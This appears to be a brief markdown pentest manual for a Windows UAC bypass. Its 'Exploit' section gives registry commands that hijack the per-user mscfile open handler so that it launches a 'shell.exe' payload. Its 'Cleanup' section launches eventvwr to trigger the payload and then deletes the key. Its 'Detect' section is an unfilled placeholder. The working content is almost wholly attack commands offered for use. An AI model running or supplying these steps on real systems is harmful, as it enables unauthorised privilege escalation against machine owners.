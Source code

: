 # Manual

## 01 - Detect

> [!IMPORTANT] Conditions
> Write the conditions...

## 02 - Exploit

```
C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

## 03 - Cleanup

```
C:\> eventvwr

C:\> reg.exe delete "HKCU\SOFTWARE\Classes\mscfile" /f
```